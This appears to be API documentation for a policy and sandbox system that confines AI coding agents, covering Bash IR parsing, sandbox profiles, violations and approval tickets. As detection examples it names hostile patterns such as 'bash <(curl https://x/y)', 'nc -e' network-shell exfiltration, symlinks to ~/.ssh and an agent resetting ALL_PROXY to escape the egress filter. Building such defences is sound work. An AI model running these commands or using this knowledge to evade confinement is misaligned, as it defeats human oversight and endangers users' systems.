  is dynamic the field is `None` and `has_dynamic_eval` is set. A nested shell payload can be
  handed straight back to `omp.policy.parse()` for a second, identical analysis — which is the
  whole reason `cc-safety-net` needs `interpreter.dangerous-command`,
  `awk.system-dynamic`, `shell.dynamic-structure` and `shell.dynamic-executable` as four
  separate hand-written rules and omp needs none of them.

#### `omp.BashArg`

```python
@dataclass(frozen=True, slots=True)
class BashArg:
    text: str                             # raw word text, before expansion
    dynamic: bool                         # dynamism is not Dynamism.NONE
    dynamism: Dynamism
    quoting: Quoting
    span: Span
```

`omp.Dynamism` is an `IntFlag`, one bit per non-literal `WordPiece`
(`crates/shell/src/parser/word.rs:34-57`):

| Member | Value | `WordPiece` |
|---|---|---|
| `NONE` | `0` | `Text`, `SingleQuotedText`, `AnsiCQuotedText` |
| `PARAMETER` | `1` | `ParameterExpansion` |
| `COMMAND_SUB` | `2` | `CommandSubstitution`, `BackquotedCommandSubstitution` |
| `ARITHMETIC` | `4` | `ArithmeticExpression` |
| `TILDE` | `8` | `TildeExpansion` |
| `GLOB` | `16` | pathname expansion in an unquoted word |
| `BRACE` | `32` | brace expansion (`{a,b}`, `{1..5}`) |
| `ESCAPE` | `64` | `EscapeSequence` |

The split matters because the bits are not equally dangerous. `TILDE` and `GLOB` are resolvable
env-side and a policy may safely treat them as known; `COMMAND_SUB` is arbitrary code.
`pi-menshen` collapses all of these into one `dynamic` boolean and consequently forces review
on `ls *.txt`.

`omp.Quoting` is a `StrEnum`: `BARE`, `SINGLE`, `DOUBLE`, `ANSI_C`, `MIXED`. A word is `MIXED`
when it concatenates differently-quoted pieces (`"$a"'b'`).

#### `omp.BashAssignment`

```python
@dataclass(frozen=True, slots=True)
class BashAssignment:
    name: str
    index: str | None                     # array subscript, for NAME[idx]=val
    value: str | None                     # scalar text, None for array assignments
    elements: tuple[tuple[str | None, str], ...]   # (subscript, value) for arrays
    array: bool
    append: bool                          # `+=`
    exported: bool                        # command-prefix assignment, or `export`
    dynamism: Dynamism
    span: Span
```

Mirrors `ast::Assignment` / `AssignmentName` / `AssignmentValue`
(`crates/shell/src/parser/ast.rs:1196-1259`), including the `append` flag and the
array-element form. `exported` distinguishes `FOO=1 cmd` (visible to `cmd` only) from a plain
`FOO=1` statement. Assignments are the vector `pi-sandbox` exploits deliberately — it injects
`ALL_PROXY`, `HTTP_PROXY`, `HTTPS_PROXY` — and therefore also the vector a policy must watch:
an agent setting `ALL_PROXY` itself is escaping the egress filter, and that is visible here as
a structured assignment rather than a substring.

#### `omp.BashRedirect`

```python
@dataclass(frozen=True, slots=True)
class BashRedirect:
    fd: int | None                        # explicit source fd, None when defaulted
    op: RedirectOp
    target_kind: RedirectTarget
    target: str | None                    # filename or duplicate word text
    target_fd: int | None                 # for RedirectTarget.FD
    process_sub: ProcessSubIR | None      # for RedirectTarget.PROCESS_SUB
    heredoc: HereDoc | None               # for HERE_DOC / HERE_STRING
    dynamism: Dynamism
    path: PathRef | None                  # the inferred read/write, when a file
    span: Span
```

`omp.RedirectOp` is a `StrEnum` covering `ast::IoRedirect` and `IoFileRedirectKind`
(`crates/shell/src/parser/ast.rs:1325-1404`):

| Member | Token | Implies |
|---|---|---|
| `READ` | `<` | `Access.READ` |
| `WRITE` | `>` | `Access.WRITE` |
| `APPEND` | `>>` | `Access.APPEND` |
| `READ_WRITE` | `<>` | `Access.READ \| Access.WRITE` |
| `CLOBBER` | `>\|` | `Access.WRITE` (ignores `noclobber`) |
| `DUP_IN` | `<&` | fd duplication, no path |
| `DUP_OUT` | `>&` | fd duplication, no path |
| `HERE_DOC` | `<<`, `<<-` | `Access.READ` on a synthetic input |
| `HERE_STRING` | `<<<` | `Access.READ` on a synthetic input |
| `OUT_AND_ERR` | `&>`, `&>>` | `Access.WRITE` or `Access.APPEND` on both channels |

`omp.RedirectTarget` is a `StrEnum`: `FILE`, `FD`, `PROCESS_SUB`, `DUPLICATE` — mirroring
`ast::IoFileRedirectTarget` (`:1420-1435`). `DUPLICATE` is the ambiguous
`Duplicate(Word)` case that only resolves after expansion; its `path` is `None` and its
`dynamism` carries at least one bit.

```python
@dataclass(frozen=True, slots=True)
class HereDoc:
    delimiter: str
    body: str
    strip_tabs: bool                      # `<<-`
    expands: bool                         # unquoted delimiter, so body is expanded
```

Mirrors `ast::IoHereDocument` (`:1450-1464`). `expands` is load-bearing: a here-document with
an unquoted delimiter can carry `$(…)`, so its body contributes to `has_dynamic_eval`.

#### `omp.ProcessSubIR`

```python
@dataclass(frozen=True, slots=True)
class ProcessSubIR:
    direction: ProcessSubDirection
    body: tuple[BashAndOrList, ...]
    span: Span
```

`omp.ProcessSubDirection` is a `StrEnum` with `READ` (`<(…)`) and `WRITE` (`>(…)`), mirroring
`ast::ProcessSubstitutionKind` (`:1136-1144`). The body is a full nested IR fragment, so
`bash <(curl https://x/y)` — one of `cc-safety-net`'s explicit rules and one of pi's
`CRITICAL_BASH_PATTERNS` — is reachable by walking, not by pattern-matching `<(curl`.

#### `omp.BashCompound`, `omp.BashFunctionDef`, `omp.BashTestExpr`

```python
@dataclass(frozen=True, slots=True)
class BashCompound:
    kind: CompoundKind
    body: tuple[BashAndOrList, ...]
    subject: tuple[BashArg, ...]          # for/case operand, if/while condition words
    redirects: tuple[BashRedirect, ...]
    span: Span

@dataclass(frozen=True, slots=True)
class BashFunctionDef:
    name: str
    body: tuple[BashAndOrList, ...]
    redirects: tuple[BashRedirect, ...]
    span: Span

@dataclass(frozen=True, slots=True)
class BashTestExpr:
    source: str                           # exact `[[ … ]]` text
    paths: tuple[PathRef, ...]            # file predicates (-f, -e, -d, …)
    dynamism: Dynamism
    span: Span
```

`omp.CompoundKind` is a `StrEnum` with exactly the ten `ast::CompoundCommand` variants
(`crates/shell/src/parser/ast.rs:385-412`): `ARITHMETIC`, `ARITHMETIC_FOR`,
`BRACE_GROUP`, `SUBSHELL`, `FOR`, `CASE`, `IF`, `WHILE`, `UNTIL`, `COPROCESS`.

`COPROCESS` deserves a rule of its own in most policies: a coprocess is an asynchronous
subshell with bidirectional pipes, which is the cheapest shell-native exfiltration primitive.

#### `omp.PathRef`

```python
@dataclass(frozen=True, slots=True)
class PathRef:
    lexical: str                          # path exactly as written
    resolved: str | None                  # realpath, None when dynamic or nonexistent
    absolute: str | None                  # lexical joined onto the folded cwd
    access: Access
    origin: PathOrigin
    command_index: int
    outside_workspace: bool               # resolved (or unresolvable) escapes every root
    exists: bool
    dynamic: bool
    span: Span
```

`omp.Access` is an `IntFlag`: `READ = 1`, `WRITE = 2`, `APPEND = 4`, `EXEC = 8`, `DELETE = 16`,
`METADATA = 32`, `CREATE = 64`. Multiple bits are normal — `find . -delete` produces
`READ | DELETE`.

`omp.PathOrigin` is a `StrEnum`:

| Member | Meaning |
|---|---|
| `ARGV` | inferred from the command's argument semantics |
| `REDIRECT` | a redirect target |
| `ASSIGNMENT` | a path-shaped assignment value (`OUT=/etc/passwd`) |
| `CWD` | the command's own working directory (`cd`, `pushd`) |
| `HEREDOC` | a synthetic input document |
| `INTERPRETER` | extracted from `interpreter_code` |
| `PROCESS_SUB` | inside a process substitution body |
| `TEST` | a file predicate in a test expression |

`outside_workspace` is computed env-side, after realpath, against every workspace root — so a
symlink escape is caught and an added directory is not misclassified as external. `dynamic`
implies `outside_workspace`: unknown counts as outside, which is the conservative direction
`@gotgenes/pi-permission-system` reaches only via its bare-token filesystem probe.

Note the remote case: for an extension declared by a remote workspace, `resolved` and
`outside_workspace` are computed against the **remote** environment's filesystem, not the
client's. Roots are URIs, not host paths. See `docs/py/00-overview.md`, `docs/py/11-env.md`
and `docs/py/14-deploy.md`.

#### `omp.NetRef`

```python
@dataclass(frozen=True, slots=True)
class NetRef:
    kind: NetKind
    direction: NetDirection
    host: str | None
    port: int | None
    scheme: str | None
    url: str | None
    command_index: int
    dynamic: bool
    span: Span
```

`omp.NetKind` is a `StrEnum`: `HTTP` (`curl`, `wget`, `http`), `GIT_REMOTE`, `SSH`, `SCP`,
`RSYNC`, `DNS`, `RAW_SOCKET` (`nc`, `socat`, `/dev/tcp`), `PACKAGE_MANAGER`, `UNKNOWN`.
`omp.NetDirection` is a `StrEnum`: `EGRESS`, `INGRESS`, `BIDIRECTIONAL`.

`RAW_SOCKET` with `BIDIRECTIONAL` is `nc -e` / `nc -c` — pi's "Network shell exfiltration"
critical pattern — as a typed fact.

#### `omp.OpaqueEvaluator`

```python
@dataclass(frozen=True, slots=True)
class OpaqueEvaluator:
    command_index: int
    name: str
    reason: OpaqueReason
    span: Span
```

`omp.OpaqueReason` is a `StrEnum`: `EVAL`, `SOURCE`, `EXEC_REPLACE`, `DYNAMIC_NAME`,
`STDIN_DRIVEN` (`xargs`, `parallel`), `INTERPRETER_DYNAMIC`, `JQ_SYSTEM`, `TEST_SUBSCRIPT`.
These are exactly `pi-menshen`'s `executionSemanticsAreVisible()` rejections, promoted from a
per-extension name list to core output. Every entry also sets `BashIR.has_dynamic_eval`.

#### `omp.Span`

```python
@dataclass(frozen=True, slots=True)
class Span:
    start: int                            # 0-based byte offset into BashIR.source
    end: int                              # exclusive
    line: int                             # 1-based
    column: int                           # 1-based
```

Mirrors `parser::SourceSpan` / `SourcePosition`
(`crates/shell/src/parser/source.rs:3-62`), flattened from `Arc<SourcePosition>` to
plain integers because the IR crosses a socket.

#### IR constants

| Constant | Value | Meaning |
|---|---|---|
| `omp.BASH_IR_REV` | `"bashir@3"` | the IR schema revision this host was built against |
| `omp.BASH_IR_MAX_SOURCE` | `262144` | scripts longer than this arrive `truncated=True`, `parse_ok=False`, `ParseFailure.SOURCE_LIMIT` |
| `omp.BASH_IR_MAX_NODES` | `50000` | node ceiling; exceeding it yields `ParseFailure.NODE_LIMIT` |
| `omp.BASH_IR_MAX_DEPTH` | `128` | nesting ceiling; exceeding it yields `ParseFailure.DEPTH_LIMIT` |

Compare `BASH_IR_REV` against your own expectation at load and degrade deliberately; do not
assume field presence. Unknown IR revisions are a compatibility problem the extension owns —
see `omp.PolicyError` below.

#### `await omp.policy.parse(script, *, cwd=None) -> BashIR`

Parses an arbitrary script with the same parser, at the same revision, that the shell engine
will use. Rides CONTROL (the analyzer is core-side; the host holds no parser). Latency class:
per call, sub-millisecond for typical scripts. Raises `omp.PolicyError` only for transport
failure — a malformed script comes back as an IR with `parse_ok=False`.

```python
@omp.hook("tool_call", phase=omp.HookPhase.PRECHECK)
async def analyze_nested_shells(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    if event.bash is None:
        return omp.Defer()
    for cmd in event.bash.commands:
        if cmd.interpreter_code is None or cmd.name not in ("sh", "bash", "zsh"):
            continue
        inner = await omp.policy.parse(cmd.interpreter_code, cwd=cmd.cwd)
        if inner.has_dynamic_eval or inner.writes_outside(ctx.roots):
            return omp.Deny(
                f"nested shell in `{event.bash.segment(cmd.index)}` writes outside the "
                f"workspace or evaluates dynamic code",
                code="nested-shell-escape",
            )
    return omp.Defer()
```

#### `await omp.policy.match_paths(path, *patterns, cwd=None, access=None) -> tuple[PathRef, ...]`

```python
async def match_paths(
    path: str,
    *patterns: str,
    cwd: EnvPath | None = None,
    access: Access | None = None,
) -> tuple[PathRef, ...]: ...
```

Resolves a bare path — the kind a non-shell target carries in its arguments, such as
`read`/`write`/`edit`'s `path` — into the same `omp.PathRef` shape the IR uses, so one rule can
cover both, and returns the refs matching any of `patterns`. An empty `patterns` returns the
single resolved ref unconditionally.

`path` is deliberately a raw `str`: it is model-emitted argument text, which is exactly what
this function exists to turn *into* a typed, resolved fact. It is the one place in this
namespace where an untyped path is the honest input type.

Rides CONTROL; resolution (realpath, existence, `outside_workspace`) happens env-side against
the environment that owns the files, which for a remote workspace is the remote filesystem.
`cwd` defaults to the session cwd. `access` records what the caller intends to do — pass the
target's semantics when they are known; the default is `Access.METADATA`, which is the only
claim a resolver can make on its own.

This exists so a policy never calls `os.path.realpath` on the host. A host-side realpath is
wrong twice over: it resolves against the client's disk rather than the environment's, and it
is a filesystem read the extension's capability scope may not permit.

### Sandbox profiles

A profile is **data**. Python composes it and hands it over DATA; Rust compiles it into a
Landlock ruleset, a Seatbelt profile or bubblewrap arguments plus a SOCKS egress filter, and
installs it at process spawn. There is no Python code on any enforcement path, and there is no
way for an extension to widen a profile installed by a higher-priority contributor.

#### `omp.SandboxProfile`

```python
@dataclass(frozen=True, slots=True)
class SandboxProfile:
    mode: SandboxMode = SandboxMode.ENFORCE
    filesystem: FilesystemPolicy = FilesystemPolicy()
    network: NetworkPolicy = NetworkPolicy()
    exec: ExecPolicy = ExecPolicy()
    resources: ResourceBudget = ResourceBudget()
    label: str = ""                       # appears in Violation.profile and audit records
    ignore_violations: tuple[str, ...] = ()   # glob paths whose violations are not reported
    require: tuple[SandboxBackend, ...] = ()  # refuse to run if none of these is available
```

`omp.SandboxMode` is a `StrEnum`:

| Member | Semantics |
|---|---|
| `OFF` | no confinement installed; only permitted when config grants the extension the `sandbox.off` capability |
| `OBSERVE` | rules compiled and violations reported, nothing blocked; the shakedown mode |
| `ENFORCE` | rules compiled and enforced by the kernel |

`omp.SandboxBackend` is a `StrEnum`: `LANDLOCK`, `BWRAP`, `SEATBELT`, `JOB_OBJECT`, `NONE`.
`require=(SandboxBackend.LANDLOCK,)` makes an extension refuse to operate on a host that
cannot enforce what it asked for, rather than silently degrading — the failure mode that made
`pi-sandbox`'s `sandbox: 'unavailable'` state meaningless in practice.

**Composition.** Multiple extensions may contribute a profile for the same session. Core
composes them under one order-independent rule (there is no priority order to get wrong):
**denies union, allows intersect, mode
takes the maximum.** No contributor can grant what another forbade, no contributor can weaken
`ENFORCE` to `OBSERVE`, and configuration is composed last so a user can always tighten but an
extension can never loosen. An extension that returns a profile which would widen the running
composition gets `omp.ProfileWidened` and its contribution is dropped, journaled.

`SandboxProfile` paths are **environment paths**. For a remote workspace they name the remote
filesystem, addressed as URIs. Never derive one from `os.getcwd()`, `Path.cwd()` or
`__file__` — those name the host child's own filesystem, which for a workspace-layer child is
not the client's disk and for a confined child may be a view of neither. Use `ctx.roots` (see
`docs/py/00-overview.md`) or `omp.env` (see `docs/py/11-env.md`). An `omp.EnvPath` is
accepted anywhere a profile path or `PathRule.path` is, and is the preferred spelling: it
cannot name the wrong machine by construction.

#### `omp.FilesystemPolicy`

```python
@dataclass(frozen=True, slots=True)
class FilesystemPolicy:
    allow_read: tuple[PathRule, ...] = ()
    deny_read: tuple[PathRule, ...] = ()
    allow_write: tuple[PathRule, ...] = ()
    deny_write: tuple[PathRule, ...] = ()
    allow_exec: tuple[PathRule, ...] = ()
    deny_exec: tuple[PathRule, ...] = ()
    follow_symlinks: bool = False
    tmpdir: str | None = None             # private tmpdir bound into the sandbox
    read_default: RuleEffect = RuleEffect.DENY
    write_default: RuleEffect = RuleEffect.DENY
    exec_default: RuleEffect = RuleEffect.ALLOW
```

`omp.RuleEffect` is a `StrEnum`: `ALLOW`, `DENY`. Defaults are deny-first for read and write,
matching `pi-sandbox`'s `denyRead: ["/"]` posture without making the caller spell it out;
`exec_default` is `ALLOW` because denying exec by default breaks every toolchain and the
interesting exec controls live in `omp.ExecPolicy`.

Evaluation order for a path is: most specific matching `deny_*` rule, then most specific
matching `allow_*` rule, then `*_default`. Specificity is path-prefix length, so
`deny_write=["<root>/.git"]` beats `allow_write=["<root>"]` — which is what makes
`cc-safety-net`'s catastrophic `rm.git-metadata` rule enforceable instead of advisory.

`follow_symlinks=False` means confinement is evaluated on the resolved path, so a symlink from
inside the workspace to `~/.ssh` does not grant access. This is the default because the
opposite default is a vulnerability.

#### `omp.PathRule`

```python
@dataclass(frozen=True, slots=True)
class PathRule:
    path: str
    recursive: bool = True
    create: bool = False                  # may create entries under `path`
    delete: bool = False                  # may unlink entries under `path`
```

A bare `str` is accepted anywhere a `PathRule` is and means
`PathRule(path, recursive=True, create=True, delete=True)` for write rules and
`PathRule(path, recursive=True)` for read rules. `create` and `delete` map onto Landlock's
`LANDLOCK_ACCESS_FS_MAKE_*` and `REMOVE_*` access bits; on backends that cannot express them
they are folded into write and the reduction is reported in
`omp.SandboxCapabilities.degraded`.

#### `omp.NetworkPolicy`

```python
@dataclass(frozen=True, slots=True)
class NetworkPolicy:
    mode: NetworkMode = NetworkMode.PROXY
    allow_domains: tuple[DomainRule, ...] = ()
    deny_domains: tuple[DomainRule, ...] = ()
    allow_ports: tuple[int, ...] = (80, 443)
    allow_localhost: bool = False
    allow_unix_sockets: tuple[str, ...] = ()
    allow_mach_lookup: tuple[str, ...] = ()   # macOS only
    dns: DnsPolicy = DnsPolicy.PROXY_ONLY
    inject_proxy_env: bool = True
```

`omp.NetworkMode` is a `StrEnum`:

| Member | Semantics |
|---|---|
| `OPEN` | no egress filtering |
| `PROXY` | all TCP egress must traverse the env-owned SOCKS5 filter, which enforces the domain rules |
| `DENY` | no egress at all, except `allow_unix_sockets` |

`omp.DnsPolicy` is a `StrEnum`: `PROXY_ONLY` (names resolve inside the filter, so the child
never learns an IP it could connect to directly), `ALLOW` (system resolver permitted), `DENY`.

`omp.DomainRule`:

```python
@dataclass(frozen=True, slots=True)
class DomainRule:
    domain: str                           # "api.github.com" or "*.githubusercontent.com"
    ports: tuple[int, ...] = ()           # empty means NetworkPolicy.allow_ports
```

A bare `str` is accepted and means `DomainRule(domain)`. Exact match and a single leading
`*.` wildcard are supported — the same surface `pi-sandbox` and `pi-playpen` expose, and
deliberately no more: regex domain matching invites the mistakes that make an allowlist
decorative.

`inject_proxy_env=True` sets `ALL_PROXY`, `HTTP_PROXY`, `HTTPS_PROXY`, `NO_PROXY` and
`NODE_EXTRA_CA_CERTS` on confined children so proxy-aware clients cooperate. It is a
convenience, **not** the enforcement: the filter holds because the child has no other route
out, and an agent that unsets `ALL_PROXY` gains nothing. `pi-sandbox` also rewrites `ssh` into
a shell function wrapping `nc -X 5 -x localhost:<port>`; omp does not need that hack, because
`ssh` under `NetworkMode.PROXY` either traverses the filter or gets `ECONNREFUSED`.

#### `omp.ExecPolicy`

```python
@dataclass(frozen=True, slots=True)
class ExecPolicy:
    allow: tuple[str, ...] = ()           # binary names or absolute paths
    deny: tuple[str, ...] = ()
    default: RuleEffect = RuleEffect.ALLOW
    allow_interpreters: bool = True       # inline -c/-e payloads may run
    allow_setuid: bool = False            # NO_NEW_PRIVS off/on
    allow_ptrace: bool = False
    allow_new_session: bool = False       # setsid, escaping the process group
    max_children: int | None = None
```

`allow_setuid=False` installs `PR_SET_NO_NEW_PRIVS` (or the platform equivalent), which is what
actually makes `sudo` fail rather than a `/\bsudo\b/` regex.
`allow_new_session=False` keeps every descendant inside the process group that `RunGuard`'s
drop kills (`crates/env/src/guard.rs:58-62`, `crates/app/src/envd/exec.rs:591`), which is what
makes cancellation total rather than best-effort.

#### `omp.ResourceBudget`

```python
@dataclass(frozen=True, slots=True)
class ResourceBudget:
    wall: omp.Duration | None = None
    cpu: omp.Duration | None = None
    memory_bytes: int | None = None
    file_size_bytes: int | None = None
    open_files: int | None = None
    processes: int | None = None
    disk_write_bytes: int | None = None
    stdout_bytes: int | None = None
```

`None` means "inherit the session default"; `wall` and `cpu` are `omp.Duration` values
(config strings such as `"30s"` parse into it). `wall` composes with, and never overrides, the
invocation deadline the loop owns (`InvokeTool.deadline_ms`,
`crates/proto/proto/omp/env/v1/env.proto:61`) — the tighter of the two wins. Exceeding a budget
produces `omp.Violation` with `ViolationKind.RESOURCE` and terminates the command with
`ExecOutcome.Failed`, not `Denied`: a budget is a resource limit, not a permission decision.

#### `@omp.hook("sandbox_profile")`

```python
@omp.hook("sandbox_profile", phase=omp.HookPhase.TRANSFORM)
def profile(request: omp.SandboxRequest, ctx: omp.Context) -> omp.SandboxProfile | None:
    ...
```

Called once per exec session open, before the first command runs. Rides DATA (it is part of
session establishment, not agent-loop traffic). Latency class: per session, cold. Fail policy:
**fail-closed** — an exception or timeout drops that contributor and, if no contributor
succeeded and configuration requires confinement, the session refuses to open with
`omp.EnforcementUnavailable`. Returning `None` abstains.

```python
@dataclass(frozen=True, slots=True)
class SandboxRequest:
    session_kind: SandboxSessionKind
    cwd: EnvPath
    roots: tuple[WorkspaceUri, ...]           # workspace roots, primary first (docs/py/14-deploy.md)
    backends: tuple[SandboxBackend, ...]      # what this environment can actually enforce
    invocation_id: str | None                 # None for user_bash and named processes
    process_name: str | None                  # set for named processes
```

`omp.SandboxSessionKind` is a `StrEnum`: `TOOL` (a `shell` invocation), `USER` (a user-typed command),
`PROCESS` (a named long-running process), `WORKER` (an extension worker; see
`docs/py/04-placement.md`).

#### `await omp.policy.capabilities() -> SandboxCapabilities`

```python
@dataclass(frozen=True, slots=True)
class SandboxCapabilities:
    backends: tuple[SandboxBackend, ...]
    landlock_abi: int | None              # 0 when Landlock is absent
    filesystem: bool
    network: bool
    domain_filtering: bool
    resource_limits: bool
    degraded: tuple[str, ...]             # human-readable reductions core will apply
```

Rides DATA. Call it at load and shape your profile to what the host can enforce, or set
`SandboxProfile.require` and let core refuse. `degraded` names each reduction explicitly — for
example `"PathRule.create folded into write (landlock_abi=1)"` — so an extension never has to
guess whether its rule survived.

#### `await omp.policy.effective_profile(*, session=None) -> SandboxProfile`

Returns the composed, degraded, actually-installed profile for a session (the current one when
`session` is omitted). The profile says what was composed; the receipt below says what
actually held — log both, rather than the profile you submitted.

#### `omp.SandboxEnforcement`

```python
@dataclass(frozen=True, slots=True)
class SandboxEnforcement:
    filesystem: FilesystemGrade           # HARD | BROKERED | BEST_EFFORT | NONE
    network: NetworkGrade                 # HARD | PROXY_ONLY | NONE
    process: ProcessGrade                 # HARD | PARTIAL | NONE
    backend: str                          # e.g. "landlock+bwrap", "seatbelt"
    degraded_reasons: tuple[str, ...]
```

The runtime **enforcement receipt**: not what was asked for (`SandboxProfile`), not what the
host theoretically supports (`SandboxCapabilities`), but the grade of confinement actually
installed around this session. `omp.FilesystemGrade` is a `StrEnum`: `HARD` (kernel-enforced
— Landlock, Seatbelt, namespaces), `BROKERED` (every access mediated by the environment's own
fs layer — Rust-enforced, same-process), `BEST_EFFORT` (partial coverage with known gaps),
`NONE`. `omp.NetworkGrade` is a `StrEnum`: `HARD` (namespace-level redirect; nothing
escapes), `PROXY_ONLY` (the SOCKS filter holds for proxy-aware clients; QUIC and raw UDP
escape it), `NONE`. `omp.ProcessGrade` is a `StrEnum`: `HARD`, `PARTIAL`, `NONE`.

The receipt exists because the honest answer to "am I sandboxed?" is graded, and the open
questions at the end of this document — the in-process shell, hostname egress, deprecated
Seatbelt, Windows — are exactly the gaps the grades name. The rule that makes the grades
trustworthy: **`SandboxMode.ENFORCE` either meets the profile's declared requirements or the
session refuses to run.** Degradation is never silent and never becomes observation: a
reduction either still satisfies what the profile required — and appears in
`degraded_reasons`, with the affected axis graded down — or it does not, and the session
fails to open with `omp.EnforcementUnavailable`. There is no path on which an extension asked
for enforcement and silently received observation.

#### `await omp.policy.enforcement(*, session=None) -> SandboxEnforcement`

Returns the receipt for a session (the current one when `session` is omitted). Rides DATA.

#### `await omp.policy.install(profile, *, scope=PolicyScope.SESSION) -> ProfileHandle`

Imperative install, for the case where the profile is not knowable at session open — a policy
that tightens confinement after a risky verdict. Rides DATA. Subject to the same composition
rule: it can only narrow. Raises `omp.ProfileWidened` if it would not.

`omp.PolicyScope` is a `StrEnum`: `ONCE` (this operation), `CALL` (this invocation), `TURN`
(until the turn ends), `SESSION` (until the exec session closes), `PERSIST` (written to project
configuration, requires the `policy.persist` capability).

`omp.ProfileHandle` has `.revoke()` and `.profile`, and revokes on garbage collection if the
scope is `ONCE` or `CALL`.

### Violations and remediation

#### `omp.Violation`

```python
@dataclass(frozen=True, slots=True)
class Violation:
    kind: ViolationKind
    subject: str                          # path, host:port, or resource name
    access: Access | None                 # for filesystem kinds
    profile: str                          # SandboxProfile.label that denied it
    rule: str | None                       # the specific rule, when attributable
    backend: SandboxBackend
    session_kind: SandboxSessionKind
    invocation_id: str | None
    command_index: int | None              # index into the BashIR that was running
    pid: int | None
    argv0: str | None
    enforced: bool                        # False in SandboxMode.OBSERVE
    count: int                            # coalesced repeats of the identical violation
```

`omp.ViolationKind` is a `StrEnum`: `FS_READ`, `FS_WRITE`, `FS_EXEC`, `FS_CREATE`, `FS_DELETE`,
`NET_CONNECT`, `NET_BIND`, `NET_DNS`, `NET_DOMAIN`, `RESOURCE`, `PRIVILEGE`, `UNKNOWN`.

This is the structured replacement for `pi-sandbox` regexing `Operation not permitted` out of
stderr. That regex only ever matched failures bash itself reported, so a violation inside a
child process was invisible; and it extracted a path and nothing else, so the prompt it raised
could not say which rule fired. `omp.Violation` comes from the enforcement layer, names the
rule, and coalesces repeats so a loop hitting the same denied path once per iteration produces
one report with `count`.

#### `@omp.hook("sandbox_violation")`

```python
@omp.hook("sandbox_violation")
async def remediate(v: omp.Violation, ctx: omp.Context) -> omp.Amend | None:
    ...
```

Rides CONTROL. Latency class: per violation, off the hot path — the syscall already failed, so
this hook is remediation, never enforcement. Fail policy: **fail-open**, because the operation
was already denied; an exception here is journaled and dropped. Returning `None` leaves the
denial standing.

#### `omp.Amend`

```python
@dataclass(frozen=True, slots=True)
class Amend:
    patch: SandboxProfile
    scope: PolicyScope = PolicyScope.SESSION
    reason: str = ""
    retry: bool = False                   # re-run the failed command after amending
    approval: ApprovalSpec | None = None  # ticket Core must resolve before applying
```

`patch` is composed under the same narrow-only rule, with one deliberate exception: an `Amend`
whose scope is `SESSION` or `PERSIST` may *widen*, because it exists to grant a runtime
exception — but only under an approval decision whose `source` is `ApprovalSource.USER` or
`ApprovalSource.EXTERNAL`. The mechanism is the `approval` field: a widening `Amend` carries
an `ApprovalSpec`, Core files it as a durable ticket, and the patch is applied — at the scope
the decision granted — only if the ticket resolves approved. A widening `Amend` without an
`approval`, amending on a rule's own authority, raises `omp.ProfileWidened`. This is
`pi-sandbox`'s prompt-to-grant loop with the authority made explicit instead of implicit in
whoever called `reinitialize()`.

`retry=True` re-runs the command that tripped the violation, once, under the amended profile.
It is only honoured while the invocation is still live.

#### `await omp.policy.amend(patch, *, scope, reason, approval=None) -> None`

The imperative form, for amending outside a violation hook. Same authority rule: a widening
patch requires `approval`, and applies only when the ticket resolves approved.

### Approvals

Approval in Revision 1 was `await policy.approve(request)`: the calling hook coroutine
suspended — "from seconds to hours" — until a human or an external service answered, and a
pending request was journaled so a host restart could re-offer it. That shape is retracted,
for the reasons the review gave. A suspended coroutine ties the decision's lifetime to a
Python call stack that a restart destroys and a cancellation unwinds; it occupies the host
while carrying no information; several hooks awaiting approvals for one action can raise
several dialogs; and it makes the approval's durability an extension-side promise instead of
a Core-side fact. Revision 2 inverts the ownership: **a hook never waits for an approval — it
returns one.**

The shape is now:

1. An `APPROVAL`-phase hook returns `omp.RequireApproval(omp.ApprovalSpec(...))` — the
   decision arm is `docs/py/05-hooks.md`'s; the spec and the ticket are defined here.
2. Core collects every `RequireApproval` raised for the invocation into **one durable
   approval ticket** — one ticket per invocation, carrying all unresolved reasons — and
   persists it before anything else happens (`docs/py/09-journal.md`).
3. The invocation parks in `InvocationPhase.ADMISSION` at Core, not in any Python coroutine.
   Other invocations, other hooks and the whole extension host proceed normally; each
   invocation gates independently, and one slow approval never serializes the batch.
4. The ticket resolves — user dialog, external approver, configuration pre-answer, timeout,
   or unreachable-route policy — and Core resumes the state machine: approved continues
   toward `ADMITTED`, denied settles the call as
   `CallOutcome.Aborted(kind=AbortKind.POLICY_DENIED, policy=PolicyDenied(...))`.

```python
@omp.hook("tool_call", phase=omp.HookPhase.APPROVAL)
def confirm_privileged(event: omp.ToolCallEvent, ctx: omp.Context) -> omp.HookDecision:
    if omp.tier_of(event.target) is not omp.Tier.PRIVILEGED:
        return omp.Defer()
    return omp.RequireApproval(omp.ApprovalSpec(
        title="Privileged operation",
        body=f"`{event.target}` touches credentials or policy.",
        subject=str(event.args),
        kind=omp.ApprovalKind.PRIVILEGE,
    ))
```

Extension admission reuses this reserved ticket presentation for missing or stale install
grants ([`14-deploy.md`](14-deploy.md) §3.9.5), but not the Python hook API: Core constructs
that ticket from authenticated lock and grant facts before extension code starts. Its local
dialog offers allow once, allow and remember, and deny; an extension cannot supply the
specification, renderer, or decision.

Four properties are consequences of Core ownership, not conventions:

- **The ticket survives extension restarts.** It is Core state, journaled at filing. The
  extension that raised it can crash, reload, or be quarantined; the pending decision is
  unaffected, and `@agentapprove/pi`-style mobile round trips that outlive the process that
  started them are the normal case rather than a recovery story.
- **It never occupies a host coroutine.** The latency class of a human decision — seconds to
  hours — costs the extension host nothing.
- **Exactly one unspoofable dialog.** However many hooks required approval, the user sees one
  dialog listing every unresolved reason, rendered in Core's reserved presentation that
  extension-authored TML cannot reproduce (`docs/py/07-ui.md`).
- **Headless and external approval are ticket properties.** Routing (`ApprovalRoute`),
  timeout, and unreachable-route policy live on the spec and travel with the ticket; they are
  not properties of a Python call stack, so a headless session and an interactive one differ
  only in which route resolves the same ticket.

#### `omp.ApprovalSpec`

```python
@dataclass(frozen=True, slots=True)
class ApprovalSpec:
    title: str
    body: str                             # TML-safe text; see docs/py/07-ui.md
    subject: str                          # the exact command or path under review
    kind: ApprovalKind = ApprovalKind.EXEC
    scopes: tuple[PolicyScope, ...] = (PolicyScope.ONCE, PolicyScope.SESSION)
    default: bool | None = None           # value on timeout when policy permits one
    route: ApprovalRoute = ApprovalRoute.AUTO
    approver: str | None = None           # name registered with @omp.approver
    timeout: omp.Duration = omp.APPROVAL_DEADLINE
    unreachable: Unreachable = Unreachable.FAIL_CLOSED
    require_human: bool = False
    pattern: str | None = None            # what a SESSION-scoped approval would cover
    evidence: tuple[str, ...] = ()         # rule ids, violation subjects, IR segments
```

